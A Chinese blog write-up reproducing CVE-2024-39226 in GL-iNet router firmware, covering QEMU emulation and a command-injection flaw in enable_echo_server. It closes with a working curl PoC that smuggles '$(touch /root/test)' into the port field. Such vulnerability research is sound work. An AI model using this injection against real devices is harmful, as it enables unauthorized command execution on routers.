


# GL-iNet路由器CVE-2024-39226

直到创宇发了一篇关于GL-iNet的漏洞复现，看了下前端是用lua写的，和小米相似，感觉值得学习一番，今天来复现一下。
原文链接：https://www.freebuf.com/articles/web/410443.html


# 前言
GL.iNet是一家专注于智能路由器和网络设备开发的科技公司。成立于 2009 年，总部位于中国，该公司的产品以OpenWrt操作系统为基础，提供高度的可定制性和灵活性。公司致力于为家庭、企业以及工业物联网环境提供可靠的网络解决方案。GL.iNet的设备以其开源特性、强大的功能和优秀的用户体验而受到开发者、网络安全专家和高级用户的青睐。

OpenWrt是一个基于 Linux 的开源嵌入式操作系统，专为网络设备（如路由器、网关和接入点）设计。与传统的路由器固件不同，OpenWrt不是单一的、不可变的固件，而是一个完整且可扩展的操作系统，允许自定义以适应任何应用程序。

OpenResty是一个基于Nginx的高性能Web平台，它将Lua脚本引擎嵌入到Nginx中，使开发者可以通过Lua脚本编写高度可定制的Web服务，用来处理复杂的web逻辑和API请求。OpenResty通常用于高并发、低延迟的Web应用程序开发，特别是在需要处理复杂逻辑或与外部服务交互时。

这种组合使得GL.iNet路由器不仅仅是一个网络设备，还可以作为一个小型的Web服务器或应用平台。


# 1固件提取
## 1.1固件提取
GL.iNet官网提供历史固件下载：https://dl.gl-inet.cn/router/ax1800/

固件版本：GL-AX1800 Flint 4.5.16


# 系统模拟

本机ubuntu
```
sudo tunctl -t tap0
sudo ifconfig tap0 192.168.3.1/24 up
```

qemu系统模拟（这里-cpu cortex-a15必须加，默认不加可以，但是模拟机起来执行指令会报Illegal instruction的错误）
```
sudo qemu-system-arm -M vexpress-a9 -cpu cortex-a15 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic
```
虚拟机arm配置网络
```
ifconfig eth0 192.168.3.2/24 up
```
将获取到的固件文件系统打包，并传到arm虚拟机内解压。

```
tar -zcvf squashfs-root.gz squashfs-root
scp squashfs-root.gz root@192.168.3.2:/tmp/
tar -zxvf squashfs-root.gz
```
挂载固件文件系统中的proc目录和dev目录到chroot环境

```
mount -t proc /proc/ ./squashfs-root/proc/
mount -o bind /dev/ ./squashfs-root/dev/
chroot squashfs-root sh
```

# web服务分析

发现web服务是用nginx起的，去查看下对应的启动项etc/init.d/nginx


启动方式为  
```
/usr/sbin/nginx -c /etc/nginx/nginx.conf -g 'daemon off;'
```
但是我直接启动报错了

根据报错信息，是缺少文件

我们可以看到，在启动服务时候，脚本中创建了目录，我们手动创建一下。


```
mkdir -p /var/log/nginx
mkdir -p /var/lib/nginx/body
mkdir -p /var/run
```

启动成功后，尝试访问，但是显示404

这里web服务其实已经起来了，但是web页面不能正常显示而已。我们不用太纠结于web页面是否能正常访问，只要web服务能正常就行。

---

# CVE-2024-39226漏洞复现
根据CVE信息去查看漏洞点 （s2s.so中的enable_echo_server函数）：
从请求体中的json数据中获取port，下面对获取到的port的字符串进行了校验，但是并不严格。
atoi 函数会尝试将字符串中的字符转换为整数，直到遇到非数字字符为止。
此处仅仅校验了端口是否合法，导致可以拼接字符串触发命令执行。


我们测试下poc 

这里我们需要先开一个ssh服务,再来测试poc，固件中可以启动./usr/bin/switch_sim_slot 来开启ssh
```
curl -H 'glinet: 1' 127.0.0.1/rpc -d '{"method":"call", "params":["", "s2s", "enable_echo_server", {"port": "7 $(touch /root/test)"}]}'
```


